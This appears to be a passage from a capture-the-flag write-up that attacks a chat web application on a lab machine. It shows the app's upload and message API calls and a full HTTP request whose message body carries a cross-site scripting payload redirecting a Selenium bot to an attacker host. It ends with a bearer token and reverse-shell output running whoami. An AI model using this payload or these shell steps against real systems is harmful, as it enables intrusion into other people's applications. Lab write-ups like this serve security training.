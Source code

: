 ```js
fetch("".concat(_config_json__WEBPACK_IMPORTED_MODULE_1__.BACKEND_URL, "/api/chats/").concat(currentChat, "/add"), {
                method: ’POST’,
                headers: {
                  ’Accept’: ’application/json’,
                  ’Content-Type’: ’application/json’,
                  ’token’: localStorage.getItem(’token’)
                },
```

```js
var uploadFile = e => {
            var formData = new FormData();
            formData.append(’uploadedFile’, e.target.files[0]);
            fetch("".concat(_config_json__WEBPACK_IMPORTED_MODULE_1__.BACKEND_URL, "/api/").concat(currentChat, "/upload"), {
              method: ’POST’,
              headers: {
                ’token’: localStorage.getItem(’token’)
              },
              body: formData
            }).
```

And now we have a way to interact with users by sending them files and messages!

Now, let’s back to the message that we got earlier. Where the users were talking about a selenium script. Selenium allows to write test scripts or bots that interact with a web application in a similar way to how a user would interact with the application.

We can assume now, that we will have to trick the bot into downloading our files or interacting with our messages!

Here’s an example on how we can use both `/add` and `/upload` api to download/add files/messages

```http
POST /api/chats/admin/add HTTP/1.1
Host: 10.129.255.120:9000
Cache-Control: max-age=0
token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRldmVsb3BlciIsImlhdCI6MTY3MDA2MjEwMywiZXhwIjoxNjcwMDgzNzAzfQ.G1M-pWAsNnKSFxSoljbBd_lwZVGurgn9_IApQppnGgs
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 62

{"message":"<script>document.location="http://10.10.10.10/jaja"</script>"}
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname
